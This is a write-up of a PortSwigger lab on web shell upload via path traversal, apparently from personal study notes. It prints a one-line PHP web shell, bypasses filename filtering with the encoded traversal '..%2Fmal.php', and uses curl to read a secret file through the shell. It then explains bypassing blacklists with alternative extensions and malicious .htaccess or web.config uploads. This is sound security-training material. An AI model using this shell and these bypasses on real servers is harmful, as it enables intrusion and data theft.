

# 1f3 - Web shell upload via Path Traversal \[PortSwigger Lab]

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So, User's page includes avatar upload function. just to upload `mal.php` with contents `<?php echo system($_GET['command']); ?>` will just return plaintext version of this script.

<figure><figcaption><p>calling mal.php from url</p></figcaption></figure>

it also seems that uploading `mal.php` with path traversal `../mal.php` still uploads it to `files/avatars/mal.php`, which means that it's cutting traversals in path.

<figure><figcaption><p>calling mal.php file from API</p></figcaption></figure>

So all I had to do was obfuscating the path traversal to `..%2Fmal.php` which is same as `../mal.php`.

after changing a filename to this parameter and uploading it we get the following response

<figure><figcaption><p>obfuscated mal.php filename bypassed defense mechanisms</p></figcaption></figure>

so the file is uploaded to `files/mal.php`

now we can just call this script using \[\[1a1b - cURL|cURL]] to get the response

```
curl -X GET "https://0a3c00e4049c901c802ee994009d003a.web-security-academy.net/files/mal.php?command=cat%20/home/carlos/secret"


jziR****************************jziR****************************
```

The secret: jziR\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

***

Another obvious way to prevent users from uploading certain files is to blacklist these file extensions like `php`. This practice is still flawed since its difficult to explicitly blacklist every file that can be executed. such blacklists can be sometimes bypassed using lesser known, alternative file extensions like `.php5` or `.shtml` and so on.

As previously mentioned, some servers won't let certain files to execute unless they are explicitly configured to do that.

As an example, before Apache server lets PHP files to execute, a developer might put something like the following in their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Many servers also allow developers to create special config-files within individual directories to override global configuration parameters. Apache-specific servers for example will load directory-specific configuration from a file called `.htaccess`.

Similarly, directory-specific configuration can be made on IIS server using `web.config` file. This might include directives such as the following, where server only allows JSON files to be served to users:

```
<staticContent> 
	<mimeMap fileExtension=".json" mimeType="application/json" /> 
	</staticContent>
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests.

However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable type.
